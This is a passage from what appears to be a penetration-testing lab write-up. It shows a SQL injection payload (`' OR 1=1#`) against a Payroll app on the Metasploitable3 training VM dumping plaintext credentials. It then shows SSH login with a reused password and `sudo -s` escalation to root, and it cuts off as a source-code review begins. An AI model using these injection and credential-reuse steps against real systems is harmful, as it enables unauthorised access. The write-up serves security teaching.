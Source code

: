 In the above figure, we can see the bottom of the first SQL query results. This is the same as the first SQL injection attack (`' OR 1=1#`). Following that, the last two columns display the username and password, **in plaintext**, for each of the 15 users. 

I was hoping that the user credentials dumped from the MySQL database were not the same credentials used for system authentication... turns out they are! A quick SSH test to Metasploitable3 gained access as the user: `leia_organa` using the password: `help_me_obiwan`.

```
root@kali:~# ssh leia_organa@192.168.19.20 
The authenticity of host '192.168.19.20 (192.168.19.20)' can't be established.
ECDSA key fingerprint is SHA256:qvGI7uYbIIalZ0vugejoVujPrAEtQ3d8nvs2K+DMLBc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.19.20' (ECDSA) to the list of known hosts.
leia_organa@192.168.19.20's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

leia_organa@metasploitable3-ub1404:~$ 
```

A quick check of the available groups indicated that sudo access was achieved. 

```
leia_organa@metasploitable3-ub1404:~$ groups
users sudo
```

A simple check to gain root access:

```
leia_organa@metasploitable3-ub1404:~$ sudo -s
[sudo] password for leia_organa: 
root@metasploitable3-ub1404:~# 
```

Game over. I hadn't even opened the Metasploit Framework yet and had full root access to the system! This really shows the power of SQL injection attacks against a poorly coded web application. It makes a great learning exercise, especially for those new to web application security and pentesting. I would like to think that such blatant security issues do not still exist in the wild... however, the [OWASP Top 10-2017](https://www.owasp.org/index.php/Top_10-2017_Top_10) still list injection vulnerabilities as the number 1 security issue in web applications.

## Reviewing the Payroll App Source Code

Breaking the _Payroll App_ was fun! However, it is prudent that we review the source code that leads to this. Instead of looking at the source from the build process, we shall investigate the source code from the running system. Firstly, the following command attempts to find any occurrences of the word _payroll_ on the system:
